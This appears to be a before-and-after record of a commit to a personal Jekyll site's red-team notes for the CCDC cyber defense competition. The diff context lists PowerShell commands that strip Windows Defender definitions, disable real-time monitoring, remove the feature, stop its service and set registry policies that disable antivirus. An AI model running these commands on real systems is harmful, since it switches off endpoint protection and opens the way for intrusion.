

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 900 px high, scrolled down 4637 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
small update

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -181,7 +181,7 @@
   - Just run all of these in powershell and defender should be lobotomized by the end:
     - `'C:\Program Files\Windows Defender\MpCmdRun.exe' -RemoveDefinitions -All`
     - `Set-MpPreference -DisableRealtimeMonitoring $true`
-    - `Remove-WindowsFeature Windows-Defender, Windows-Defender-GUI`
+    - `Remove-WindowsFeature Windows-Defender`
     - `Stop-Service WinDefend -Force`
     - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -Type DWord -Force`
     - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Policy Manager" -Name "AllowAntivirus" -Value 0 -Type DWord`
```
